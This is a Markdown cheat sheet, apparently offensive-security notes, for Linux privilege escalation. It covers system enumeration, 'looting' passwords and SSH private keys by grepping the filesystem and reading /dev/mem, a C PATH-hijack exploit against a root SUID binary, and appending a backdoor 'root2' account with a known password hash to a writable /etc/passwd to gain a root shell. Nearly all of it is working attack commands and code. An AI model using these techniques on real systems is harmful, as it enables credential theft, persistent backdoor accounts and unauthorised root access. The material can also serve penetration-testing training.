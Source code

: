 # Enumeration

**Manual Chech**

```shell
$ cat /etc/passwd
$ hostname

$ cat /etc/issue      #OS info
$ cat /etc/*-release  #OS info
$ uname -a            #OS info

$ ps aux  						#Running Processes

$ ip a								#Network info
$ /sbin/route 				#Routing Table
$ ss -anp							#Net Services + PID

$ ls -lah /etc/cron* #Cronjobs list
$ cat /etc/crontab   #Cronjobs for root

$ dpkg -l 					 #Installed Packages

$ find / -writable -type d 2>/dev/null  #Open for all files

$ cat /etc/fstab		#Mounted drives
$ mount							#Mounted drives
$ /bin/lsblk				#show available disks

$ lsmod							     #loaded kernel
$ /sbin/modinfo libata	 #kernel info about "libata"

$ find / -perm -u=s -type f 2>/dev/null  #search for SUID

$ grep "CRON" /var/log/cron.log  #search in CRON logs
$ 
$netstat -tulpn | grep LISTEN 

```

**Automated Check**

[unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check/blob/1_x/unix-privesc-check)

```shell
./unix-privesc-check standard > output.txt
```





# Looting for passwords

```bash
Files containing passwords
#grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
#find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

#Old passwords in /etc/security/opasswd

Last edited files 10m
#find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

In memory passwords
#strings /dev/mem -n10 | grep -i PASS

ssh keys
#find / -name authorized_keys 2> /dev/null
#find / -name id_rsa 2> /dev/null


```





# Setuid and Setgid

##### How to find SETUID/SETGID files

```
find / -user cry0l1t3 -perm -4000 -exec ls -ld {} \;
find / -user root -perm -6000 -exec ls -ld {} \;
```

##### How to exploit

Search for available CVEs to the returned binaries, If not try to exploit one.

If the app are executing applications as root, debug the app and exploit like below app

```c
int main(int argc, char **argv) {
	system("ssh lol@lol.it");
	return 0;
}
```

To exploit that we need to create malicious app and set it's path at first of PATH 

```
export PATH=exp_path:${PATH}
```

the exploit app

```c
int main(int argc, char **argv) {
	setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);
	system("id && whoami");
	return 0;
}
```

`setuid(0);` because privileges gets dropped to EUID when calling system()



# /etc/passwd open to write

```bash
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
Password: evil
root@debian:/home/student# id uid=0(root) gid=0(root) groups=0(root)
```


